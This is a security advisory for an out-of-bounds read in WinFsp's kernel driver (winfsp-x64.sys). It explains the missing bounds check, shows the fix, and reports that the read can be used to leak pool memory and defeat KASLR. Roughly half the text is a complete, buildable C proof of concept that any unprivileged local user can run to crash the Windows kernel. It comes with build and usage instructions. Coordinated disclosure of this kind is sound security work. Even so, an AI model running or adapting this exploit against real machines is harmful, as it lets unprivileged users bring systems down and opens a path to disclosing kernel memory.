

winfsp-x64.sys · CWE-125 · CVSS 7.1 · affects v1.8 through v2.2B3 · Credited in v2.2B4
An unprivileged local user can bugcheck the Windows kernel and leak non-paged pool memory through a missing per-record bounds check in WinFsp’s FSP_FSCTL_NOTIFY handler.
The FSP_FSCTL_NOTIFY IOCTL accepts a user buffer holding a sequence of FSP_FSCTL_NOTIFY_INFO records, each carrying its own 16-bit Size. The kernel worker FspVolumeNotifyWork checks Size >= sizeof(FSP_FSCTL_NOTIFY_INFO) (a lower bound) but never checks that Size fits within the remaining input buffer (the missing upper bound). A single record with Size = 0xFFFF inside a buffer of only ten to twelve bytes makes the driver compute FileName.Length = 0xFFFF − 12 = 65,523 and treat the few bytes of adjacent kernel pool after the record as a 65 KB wide-character path. FspFileNameIsValid then walks that range one WCHAR at a time, reading ~64 KB past the allocation.
The device object \Device\WinFsp.Disk grants GENERIC_READ to Everyone, and opening a volume-control channel performs no additional privilege check, so any unprivileged local user can reach the vulnerable path.
Independent testing on Windows Server 2025 (24H2) produced a deterministic 0x50 bugcheck (PAGE_FAULT_IN_NONPAGED_AREA). The fault occurs at winfsp-x64.sys + 0x2355c during the wide-character walk, at a delta of 65,532 bytes past the record base. That matches the predicted ~64 KB overshoot from an attacker-controlled 0xFFFF size.
The walked bytes are handed back to a user-mode process through directory change-notifications, turning the overread into a read primitive. With pool grooming using sentinel 'K' characters, the driver was shown to return bytes from separate, already-freed kernel allocations: 150/150 injections leaked memory without crashing the machine (Driver Verifier Special Pool disabled). That is enough to disclose kernel and driver pointers and defeat KASLR.
Both effects are resolved by validating the record Size against the remaining buffer before the filename walk:
if (NotifyInfo->Size > (ULONG_PTR)NotifyInfoEnd - (ULONG_PTR)NotifyInfo)
break; /* reject records that overrun the input buffer */The report is credited in the WinFsp v2.2B4 release.

poc.c is a self-contained trigger that opens the device, builds one record with Size = 0xFFFF, and fires the IOCTL:
/*
* PoC: WinFsp FSP_FSCTL_NOTIFY per-record Size OOB read.
*
* Runs from any user account. Opens \Device\WinFsp.Disk with GENERIC_READ,
* creates an unprivileged file-system control channel via the '\VolumeParams='
* suffix, then sends a single FSP_FSCTL_NOTIFY IOCTL carrying one
* FSP_FSCTL_NOTIFY_INFO record whose Size field claims 0xFFFF bytes
* (attacker-supplied wide value) while the real IOCTL input is only 12 bytes.
*
* The asynchronous worker (FspVolumeNotifyWork) then walks up to ~65 KB of
* kernel-pool memory past the allocated work item and dereferences the range
* as if it were a wide-character path. Expected outcome on an unpatched host
* with a fresh boot: kernel BSOD (KERNEL_MODE_HEAP_CORRUPTION or
* PAGE_FAULT_IN_NONPAGED_AREA) or a hang.
*
* Build on Kali (cross-compile to Windows x86-64):
* x86_64-w64-mingw32-gcc poc.c -o poc.exe -static -Wall -O2
*
* Build on Windows (MSVC):
* cl /W3 /O2 poc.c
*
* Usage on the target Windows host:
* .\poc.exe
*
* Non-destructive: the PoC does not attempt code execution. Only triggers
* the kernel OOB read. Run only in a lab VM you can reboot.
*/
#include <windows.h>
#include <stdio.h>
#include <stdint.h>
/*
* Note on the device path: WinFsp does not create a \DosDevices\ symlink for
* its FSCTL device, so \\?\WinFsp.Disk\... does not resolve. The correct path
* is the object-manager root form \\?\GLOBALROOT\Device\WinFsp.Disk\..., which
* is what WinFsp's own DLL uses (see src/dll/fsctl.c GLOBALROOT define).
*/
#define DEVICE_PATH_PREFIX L"\\\\?\\GLOBALROOT\\Device\\WinFsp.Disk\\VolumeParams="
/* From inc/winfsp/fsctl.h. FSP_FSCTL_NOTIFY = CTL_CODE(FILE_DEVICE_FILE_SYSTEM,
* 0x800 + 'n', METHOD_NEITHER, FILE_ANY_ACCESS). */
#define FSP_FSCTL_NOTIFY \
CTL_CODE(FILE_DEVICE_FILE_SYSTEM, 0x800 + 'n', METHOD_NEITHER, FILE_ANY_ACCESS)
/* Match inc/winfsp/fsctl.h:324-330. */
#pragma pack(push, 1)
typedef struct {
UINT16 Size;
UINT32 Filter;
UINT32 Action;
/* WCHAR FileNameBuf[]; */
} FSP_FSCTL_NOTIFY_INFO;
#pragma pack(pop)
/* Build the '\VolumeParams=<encoded>' suffix used by FspVolumeCreateNoLock.
* Each byte of the FSP_FSCTL_VOLUME_PARAMS struct is encoded as one WCHAR
* whose upper byte is 0xF0 and lower byte carries the payload. See
* src/sys/volume.c:203-212. Zero-filling the struct yields a valid default
* volume-params blob; the driver applies its own field defaults. */
static void build_volume_params_path(WCHAR *out, size_t out_wchars) {
lstrcpyW(out, DEVICE_PATH_PREFIX);
size_t prefix = lstrlenW(out);
/* FSP_FSCTL_VOLUME_PARAMS is variable-sized; the driver accepts any length
* >= sizeof(FSP_FSCTL_VOLUME_PARAMS_V0) (456) and iterates up to
* sizeof(FSP_FSCTL_VOLUME_PARAMS) (504). Encoding is: each byte of the
* struct becomes one WCHAR (0xF000 | byte). See src/sys/volume.c:199-212.
* Zero-fill → Version=0 → treated as V0 → driver applies default values. */
const size_t vp_wchars = 504;
for (size_t i = 0; i < vp_wchars && prefix + i + 1 < out_wchars; i++)
out[prefix + i] = (WCHAR)(0xF000 | 0x00);
out[prefix + vp_wchars] = L'\0';
}
int wmain(void) {
WCHAR path[2048];
build_volume_params_path(path, sizeof(path) / sizeof(WCHAR));
wprintf(L"[*] opening volume-control handle via \\Device\\WinFsp.Disk ...\n");
HANDLE h = CreateFileW(path, GENERIC_READ, 0, NULL, OPEN_EXISTING, 0, NULL);
if (h == INVALID_HANDLE_VALUE) {
DWORD err = GetLastError();
fwprintf(stderr, L"[-] CreateFileW failed: %lu\n", err);
if (err == ERROR_FILE_NOT_FOUND)
fwprintf(stderr,
L" (WinFsp not installed? \\Device\\WinFsp.Disk absent.)\n");
return 1;
}
wprintf(L"[+] handle: %p\n", h);
/* Build a single malicious record. Real input length = 12 bytes.
* Declared record Size = 0xFFFF → per-record walk claims a 65523-byte
* WCHAR filename lives at offset 12 within our 12-byte allocation. */
FSP_FSCTL_NOTIFY_INFO rec;
rec.Size = 0xFFFF; /* attacker-supplied lie */
rec.Filter = 0x00000001; /* FILE_NOTIFY_CHANGE_FILE_NAME */
rec.Action = 0x00000001; /* FILE_ACTION_ADDED */
wprintf(L"[*] sending FSP_FSCTL_NOTIFY IOCTL (input = %zu bytes, "
L"record.Size = 0x%04x)\n",
sizeof(rec), rec.Size);
DWORD returned = 0;
/* METHOD_NEITHER → InputBuffer / OutputBuffer are Type3InputBuffer.
* DeviceIoControl fills IrpSp->Parameters.FileSystemControl.Type3InputBuffer
* with lpInBuffer. */
BOOL ok = DeviceIoControl(h,
FSP_FSCTL_NOTIFY,
&rec, (DWORD)sizeof(rec),
NULL, 0,
&returned, NULL);
if (!ok)
fwprintf(stderr, L"[!] DeviceIoControl returned FALSE: %lu\n",
GetLastError());
else
wprintf(L"[+] IOCTL accepted (async worker will run in kernel).\n");
wprintf(L"[*] async FspVolumeNotifyWork now scheduled. Expect BSOD within\n"
L" a few seconds if the kernel-pool OOB read hits unmapped\n"
L" memory.\n");
CloseHandle(h);
return 0;
}Tested under a VM snapshot. The IOCTL schedules an asynchronous kernel worker, so the machine bugchecks within a few seconds of the call.